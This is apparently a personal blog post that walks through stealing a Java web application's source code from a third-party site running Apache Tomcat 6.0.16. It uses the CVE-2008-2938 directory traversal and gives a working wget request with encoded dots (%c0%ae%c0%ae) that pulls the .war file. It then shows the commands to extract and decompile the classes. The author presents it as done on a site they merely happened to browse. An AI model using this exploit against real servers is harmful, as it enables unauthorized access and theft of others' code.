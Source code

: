 ```yaml
---
layout: default
title: How To Steal Java Web App Source Code From Apache Tomcat 6.0.16
tags : [hack, exploit, java, apache, tomcat]
---
```

<p><small>{{ page.date | date_to_long_string }}</small></p>

There I was minding my own business, browsing few sites when I got this 404 error:

    HTTP Status 404 - /innocent/doesnotexists

    type Status report
    message /innocent/doesnotexists
    description The requested resource (/innocent/doesnotexists) is not available.

    Apache Tomcat/6.0.16
    
I saw 404s all the time it's not even funny. Instinctively I just want to hit back, but then I saw `Apache Tomcat/6.0.16`. This particular version was released on 8th February 2008. 3 years ago. Interesting. Maybe, there's something we can do here. 

I'm not familiar with Apache Tomcat at all, and I don't code Java. Maybe it's a good time to learn then. First thing is just to search for Apache Tomcat/6.0.16 vulnerabilities. The lowest hanging fruit was Directory Traversal, [CVE-2008-2938](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-2938). It was stated in [official Apache Tomcat 6 vulnerabilities page](http://tomcat.apache.org/security-6.html) that the root cause of this vulnerability is JVM, not Tomcat itself. But whatever, it seems simple enough, worth a shot.

This entry on Security Tracker: [Tomcat UTF-8 'AllowLinking' Java Bug Lets Remote Users Traverse the Directory](http://securitytracker.com/id/1020665) shows how to exploit this. You just need encoded dots `%c0%ae%c0%ae` which represents `..`. Seems a no brainer.

Ok, so now we know we probably could download files. But we don't know what file we want to pull. Time to learn about Java and Tomcat.

[Deploying Web Applications to Tomcat](http://oreilly.com/java/archive/tomcat.html) from O'Reilly shows us exactly that. It was a post from 2001, but quick check on other search results showed that the deployment hasn't changed much. The most interesting part was on [page 5](http://oreilly.com/pub/a/java/archive/tomcat.html?page=5) where we learned that Java Web App file would be packaged to a single `.war` file and stored in the web app's directory. Wait, does that mean we can just download `.war` file and we would get the complete source code of the app? Really?

I guess there's only one way to find out then.

{% highlight bash %}
  wget 'http://example.com/innocent/%c0%ae%c0%ae/innocent.war'
    
  Output
  --REMOVED--  http://example.com/innocent/%c0%ae%c0%ae/innocent.war
  Connecting to example.com... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 91599064 (87M)
  Saving to: `innocent.war'

  2% [==>                                                         ] 2,206,947    728K/s
{% endhighlight %}

Nice. Now to extract the package we can use `jar` command.

{% highlight bash %}
  jar xvf innocent.war
{% endhighlight %}

That will extract everything to current directory. While it is nice to see everything is in there, we can't do anything much because all the `.class` file are unreadable to human being. There are many decompilers out there. Back then I used `jad` but it's no longer being maintained. Mirror download available from [http://www.varaneckas.com/jad/](http://www.varaneckas.com/jad/). Today I just downloaded [JD-GUI](http://java.decompiler.free.fr/?q=jdgui), that works too.

UPDATED: This will decompile `.class` to `.java` in `src` directory using `jad`.

{% highlight bash %}
  find . -iname "*.class" | xargs /path/to/jad -r -sjava -d src
  cd src
{% endhighlight %}